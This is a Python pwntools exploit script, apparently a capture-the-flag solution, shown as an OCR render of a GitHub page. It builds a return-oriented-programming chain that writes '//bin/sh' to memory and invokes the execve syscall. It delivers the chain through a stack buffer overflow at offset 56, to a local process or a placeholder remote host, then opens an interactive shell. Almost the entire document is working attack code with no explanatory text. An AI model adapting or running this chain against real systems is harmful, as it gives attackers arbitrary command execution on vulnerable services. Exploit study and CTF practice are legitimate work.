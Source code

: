 ```python
    rop = b''

    rop += rebase_0(0x000000000000962f) # 0x000000000040962f: pop r13; ret; 
    rop += b'//bin/sh'
    rop += rebase_0(0x0000000000001b2d) # 0x0000000000401b2d: pop rbx; ret; 
    rop += rebase_0(0x00000000000cc0e0)
    rop += rebase_0(0x00000000000715c2) # 0x00000000004715c2: mov qword ptr [rbx], r13; pop rbx; pop rbp; pop r12; pop r13; ret; 
    rop += p(0xdeadbeefdeadbeef)
    rop += p(0xdeadbeefdeadbeef)
    rop += p(0xdeadbeefdeadbeef)
    rop += p(0xdeadbeefdeadbeef)
    rop += rebase_0(0x000000000000962f) # 0x000000000040962f: pop r13; ret; 
    rop += p(0x0000000000000000)
    rop += rebase_0(0x0000000000001b2d) # 0x0000000000401b2d: pop rbx; ret; 
    rop += rebase_0(0x00000000000cc0e8)
    rop += rebase_0(0x00000000000715c2) # 0x00000000004715c2: mov qword ptr [rbx], r13; pop rbx; pop rbp; pop r12; pop r13; ret; 
    rop += p(0xdeadbeefdeadbeef)
    rop += p(0xdeadbeefdeadbeef)
    rop += p(0xdeadbeefdeadbeef)
    rop += p(0xdeadbeefdeadbeef)
    rop += rebase_0(0x0000000000001ece) # 0x0000000000401ece: pop rdi; ret; 
    rop += rebase_0(0x00000000000cc0e0)
    rop += rebase_0(0x000000000000880e) # 0x000000000040880e: pop rsi; ret; 
    rop += rebase_0(0x00000000000cc0e8)
    rop += rebase_0(0x000000000008ef5b) # 0x000000000048ef5b: pop rdx; pop rbx; ret; 
    rop += rebase_0(0x00000000000cc0e8)
    rop += p(0xdeadbeefdeadbeef)
    rop += rebase_0(0x000000000000302c) # 0x000000000040302c: pop rax; ret; 
    rop += p(0x000000000000003b)
    rop += rebase_0(0x000000000001ca64) # 0x000000000041ca64: syscall; ret; 
    return rop

def conn():
    if args.LOCAL:
        r = process([exe.path])
    else:
        r = remote("XXX.XXX.XXX.XXX", 00000)

    return r

def main():
    r = conn()

    wanted = p64(0x401885)
    offset = 56

    r.recvuntil('?')
    r.recvline()
    r.sendline(flat({offset: gen_rop()}))
    r.recvline()

    r.interactive()

if __name__ == "__main__":
    main()
```
